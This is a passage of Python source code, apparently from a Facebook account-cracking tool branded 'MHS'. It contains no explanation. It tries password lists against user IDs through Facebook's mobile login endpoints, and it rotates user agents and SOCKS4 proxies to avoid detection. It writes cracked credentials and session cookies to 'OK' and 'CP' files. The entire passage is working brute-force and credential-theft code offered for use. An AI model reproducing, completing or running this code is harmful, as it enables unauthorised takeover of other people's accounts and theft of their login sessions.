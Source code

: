             dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
            koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
            koki+=' m_pixel_ratio=2.625; wd=412x756'
            heade = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="109", "Google Chrome";v="109"', 'sec-ch-ua-mobile': '?0', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent':ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
            po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False)
            if "checkpoint" in po.cookies.get_dict().keys():
                print(f'\r\033[10;93m\033[1;93m[\033[1;93mMHS-CP\033[1;93m] \033[10;93m\033[1;93m[\033[1;93mNUM\033[1;93m]> {idf} \033[10;93m\033[1;93m[\033[1;93mPASS\033[1;93m]> \033[1;93m{pw}')
                print('\x1b[38;5;50m===============================================')
                os.system('espeak -a 300 " CP, ID"')
                open('CP/'+CPc,'a').write(idf+' • '+pw+'\n')
                akun.append(idf+' • '+pw)
                CP+=1
                break
            elif "c_user" in ses.cookies.get_dict().keys():
                ok+=1
                coki=po.cookies.get_dict()
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print(f'\r\033[10;93m\033[1;93m[\033[1;93mMHS-OK\033[1;93m] \033[10;93m\033[1;93m[\033[1;93mNUM\033[1;93m]> \x1b[38;5;50m{idf} \033[10;93m\033[1;93m[\033[1;93mPASS\033[1;93m]> \x1b[38;5;50m{pw}\n\x1b[38;5;50 \033[1;93m[💙]\033[1;93m=\033[1;93m= \x1b[38;5;50m{kuki} ')
                print('\x1b[38;5;50m===============================================')
                os.system('espeak -a 300 " MHS,  Ok,  id"')
                open('OK/'+okc,'a').write(idf+' • '+pw+'\n')
                break
                
            else:
                continue
        except requests.exceptions.ConnectionError:
            time.sleep(31)
    loop+=1
 
#------------------[ METHODE-MBASIC-2 ]-------------------#
 
def crackfree(idf,pwv):
    global loop,ok,CP
    sys.stdout.write(f"\r{H}[MHS-ON]{P}-[{H}{loop}{P}]{P}-[{H}{len(id)}{P}]-[OK{P}-{H}{ok}{P}] [{P}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
    sys.stdout.flush()
    ua = random.choice(ugen)
    ua2 = random.choice(ugen2)
    ses = requests.Session()
    for pw in pwv:
        try:
            nip=random.choice(prox)
            proxs= {'http': 'socks4://'+nip}
            ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
            p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')